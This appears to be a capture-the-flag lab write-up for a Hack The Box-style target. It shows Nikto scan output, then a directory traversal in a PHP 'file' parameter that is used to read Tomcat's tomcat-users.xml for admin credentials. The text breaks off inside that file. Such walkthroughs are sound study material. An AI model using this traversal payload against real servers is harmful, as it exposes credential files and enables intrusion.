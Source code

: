 ## Nikto
```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.194
+ Target Hostname:    10.10.10.194
+ Target Port:        80
+ Start Time:         2020-09-07 18:21:14 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ 7864 requests: 0 error(s) and 4 item(s) reported on remote host
+ End Time:           2020-09-07 18:28:09 (GMT2) (415 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

## Found Directory Traversal on http://10.10.10.194/news.php?file=statement in the ```file``` parameter
## Exploited with: ```file=../../../../path/here```

## Found that exist an interesting file ```tomcat-users.xml``` that contains the list of users, including the ```admin-gui``` user that can access the ```host-manager webapp```

## Found that file at ```file=../../../../usr/share/tomcat9/etc/tomcat-users.xml```
```
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
  NOTE:  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary. It is
  strongly recommended that you do NOT use one of the users in the commented out
```